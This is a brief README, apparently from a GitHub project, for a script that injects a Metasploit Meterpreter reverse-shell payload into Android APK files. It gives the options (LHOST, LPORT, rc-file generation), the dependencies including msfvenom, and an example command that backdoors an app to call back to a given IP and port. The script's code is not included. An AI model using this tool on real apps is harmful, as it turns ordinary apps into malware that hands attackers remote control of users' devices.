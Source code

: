 # DESCRIPTION
Automation of MeterPreter implementation in the APK app
- - -
## HELP
usage: script [options] target

-h help

-p LPORT (default 4444)

-H LHOST (default 192.168.240.1)

-f Option apktool decode..: Force delete destination directory.

-g Generate rc file for msfconsole

\==================================================

Dependencies: pyp, fdfind, msfvenom, ripgrep, uber

## Dependencies:
- pyp
- fdfind
- msfvenom
- ripgrep
- uber

## EXAMPLE
./meterpreter_in_apk.sh -H 192.168.244.44 -p 8844 -g path/to/app.apk

## OUTPUT
![Release header](https://github.com/wanbalan/meterpreter_in_apk/blob/main/screen_001.png?raw=true)

